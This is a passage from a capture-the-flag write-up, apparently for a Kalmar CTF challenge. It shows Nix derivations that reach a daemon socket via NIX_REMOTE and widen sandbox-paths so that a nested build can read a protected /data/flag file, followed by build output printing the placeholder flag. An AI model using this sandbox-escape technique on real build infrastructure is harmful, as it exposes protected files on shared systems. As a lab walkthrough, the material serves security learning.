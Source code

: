 ```nix
let
  pkgs = import <nixpkgs> {};
in {
  exploit-inner = pkgs.stdenv.mkDerivation {
    name = "exploit-inner";

    phases = ["installPhase"];

    installPhase = ''
      mkdir $out
      cat /data/flag
      cp /data/flag $out
    '';
  };
}
```

It is now possible to build this from the outer flake,
while making sure to pass it the path to `nixpkgs`, which
cannot otherwise be found by `nix-build`:

```nix, hl_lines=9-11
{
  # ...
  packages.${system}.exploit = pkgs.stdenv.mkDerivation {
    # ...
    src = ./inner.nix;
    installPhase = ''
      export NIX_REMOTE=unix:///tmp/daemon
      cp $src default.nix
      nix-build -A exploit-inner \
        -I nixpkgs=${nixpkgs} \
        --option sandbox-paths /data
      mkdir $out
      cp result/flag $out
    '';
  };
}
```

Copying these files to the VM and building the derivation gives
us the flag! :tada:

```hl_lines=16
[user@nixos:~]$ nix build .#exploit
warning: Option 'accept-flake-config' is too dangerous, skipping.
warning: Option 'allow-new-privileges' is too dangerous, skipping.
warning: Option 'build-hook' is too dangerous, skipping.
warning: Option 'post-build-hook' is too dangerous, skipping.
warning: Option 'pre-build-hook' is too dangerous, skipping.
error: builder for '/nix/store/sz3117jmlliqvnsd3f7g3vnigfa97x2r-exploit.drv' failed with exit code 1;
       last 10 log lines:
       > warning: Option 'accept-flake-config' is too dangerous, skipping.
       > warning: Option 'allow-new-privileges' is too dangerous, skipping.
       > warning: Option 'build-hook' is too dangerous, skipping.
       > warning: Option 'post-build-hook' is too dangerous, skipping.
       > warning: Option 'pre-build-hook' is too dangerous, skipping.
       > building '/nix/store/rbyna569136fcxdd8g38vmg2dwkjb4a6-exploit-inner.drv'...
       > Running phase: installPhase
       > kalmar{faker_flag}
       > /nix/store/34arwa2ixqh46sc9v3gksgiglxpmzfll-exploit-inner
       > cp: cannot stat 'result/flag': No such file or directory
       For full logs, run 'nix log /nix/store/sz3117jmlliqvnsd3f7g3vnigfa97x2r-exploit.drv'.
```
